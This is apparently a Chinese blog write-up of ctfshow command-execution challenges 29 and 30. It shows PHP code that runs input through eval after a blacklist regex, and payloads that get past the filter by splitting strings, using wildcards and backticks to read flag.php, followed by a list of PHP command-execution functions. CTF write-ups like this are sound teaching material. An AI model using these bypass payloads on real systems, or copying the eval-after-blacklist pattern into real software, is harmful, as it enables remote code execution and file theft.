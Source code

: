 ```yaml
---
title: ctfshow_rce
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pp1ove
authorDesc: 一个好奇的人
categories: 技术
comments: false
date: 2021-01-26 10:57:44
tags: rce
keywords:
description:
photos: \img\article\8.png
---
```


# ctfshow 命令执行

## 29 过滤flag

正则过滤flag,有很多方法绕过,

```
system('cat fla\g.php');
变量拼接
fla''g
正则绕过 f*
```

## 30 过滤system

```PHP
if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    } 
```

system函数过滤掉了可以使用echo ``;

```
echo%20`fla\g.p\hp`;
此外还有很多命令执行函数
system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
```
